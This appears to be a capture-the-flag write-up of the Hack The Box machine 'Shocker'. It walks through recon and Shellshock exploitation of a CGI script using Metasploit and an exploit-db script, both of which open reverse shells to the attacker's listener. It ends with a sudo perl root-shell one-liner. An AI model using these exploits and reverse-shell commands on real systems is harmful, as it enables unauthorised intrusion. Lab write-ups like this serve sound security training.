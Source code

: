 # Shocker-HTB
Shocker is a Linux machine that is rated as easy, we can get a shell by using Metasploit

# Recon
I started by runing nmap scan on the machine.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV  10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-25 22:00 EDT
Nmap scan report for 10.10.10.56
Host is up (0.045s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.76 seconds
```
## ffuf
I will be using ffuf to fuze web directories.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w /usr/share/wordlists/wfuzz/general/big.txt -u http://10.10.10.56/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/wfuzz/general/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]
:: Progress: [3024/3024] :: Job [1/1] :: 1512 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
So we need to fuzz more inside ```cgi-bin```. After a long time of fuzzing I was able to find the file:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w big.txt -u http://10.10.10.56/cgi-bin/FUZZ.sh          

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/cgi-bin/FUZZ.sh
 :: Wordlist         : FUZZ: big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

user                    [Status: 200, Size: 119, Words: 19, Lines: 8]
:: Progress: [3025/3025] :: Job [1/1] :: 1512 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
So there is a file called ```user.sh```. At this point there is 2 ways to get a shell, by using Metasploit or by using a exploit-db exploit.

## Metasploit
Module: ```exploit/multi/http/apache_mod_cgi_bash_env_exec```

Proof:
```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options 

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.28      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 10.10.10.56
RHOSTS => 10.10.10.56
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/user.sh
TARGETURI => /cgi-bin/user.sh
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.28:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.28:4444 -> 10.10.10.56:59904) at 2020-08-25 22:21:01 -0400

meterpreter > getuid 
Server username: no-user @ Shocker (uid=1000, gid=1000, euid=1000, egid=1000)
```
## Exploit-db
Exploitation: https://www.exploit-db.com/exploits/34900

```
┌──(kali㉿kali)-[~/Desktop/HTB/Shocker]
└─$ python shellshock.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.28 lport=5555 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) 
```

# User Flag
Get the User flag:
```
10.10.10.56> cat user.txt
2ec24e11...3e16695b233
```

# Root Flag
By runing ```sudo -l``` we can see that we can run ```perl``` with sudo.
```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
To get a root shell you just need to run this command ```sudo /usr/bin/perl -e 'exec "/bin/sh"' ```
```
10.10.10.56> sudo /usr/bin/perl -e 'exec "/bin/sh"'
10.10.10.56> id
uid=0(root) gid=0(root) groups=0(root)
```
And we can get root flag :)
```
10.10.10.56> cat root.txt
52c271560...60dc1ca467
```

Note: you can find more like this command ```sudo /usr/bin/perl -e 'exec "/bin/sh"' ``` from https://gtfobins.github.io/

Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
